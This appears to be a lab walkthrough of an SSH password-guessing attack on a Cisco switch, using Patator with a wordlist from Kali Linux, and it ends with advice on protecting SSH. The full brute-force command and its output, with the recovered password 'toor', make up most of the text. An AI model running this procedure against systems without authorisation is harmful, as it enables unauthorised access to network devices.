

# Password guessing attack

1. Goal
    * Getting SSH access to a switch

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2020.1)

4. Setup
    
    

5. Getting started

    1. The username (root) is already obsolete and the IP address of the switch is 192.168.1.254.
    
    2. Check the SSH connection of the switch.

    ```
    kali@KALI1:~$ ssh 192.168.1.254 -l root
    Password: 
    Password: 
    Password: 
    root@192.168.1.254's password: 
    Connection closed by 192.168.1.254 port 22
    kali@KALI1:~$
    ```
    3. Start Patator on Kali Linux
   
    [More information about Patator](https://tools.kali.org/password-attacks/patator)
    
    * Select the module ssh_login.
    * Define the host and user.
    * Select a password file.
    * Ignore "Authentication failed" messages.

    
    ```
    kali@KALI1:~/Desktop$ patator ssh_login host=192.168.1.254 user=root password=FILE0 0=password.lst -x ignore:mesg='Authentication failed.'
    14:01:47 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2020-05-26 14:01 CEST
    14:01:47 patator    INFO -                                                                              
    14:01:47 patator    INFO - code  size    time | candidate                          |   num | mesg
    14:01:47 patator    INFO - -----------------------------------------------------------------------------
    14:08:34 patator    INFO - 0     18     2.155 | toor                               |   450 | SSH-2.0-Cisco-1.25
    ^C
    14:10:59 patator    INFO - Hits/Done/Skip/Fail/Size: 1/611/0/0/3560, Avg: 1 r/s, Time: 0h 9m 12s
    14:10:59 patator    INFO - To resume execution, pass --resume 61,61,61,61,61,61,61,61,61,62
    kali@KALI1:~/Desktop$
    ```
    The password (toor) has been retrieved!

     4. Check the SSH connection of the switch.

     ```
     kali@KALI1:~$ ssh 192.168.1.254 -l root
    Password: 
    S1#
     ```

6. Conclusion
    * Protect your SSH connections well! (Management VLAN, strong passwords, restrict access, ...)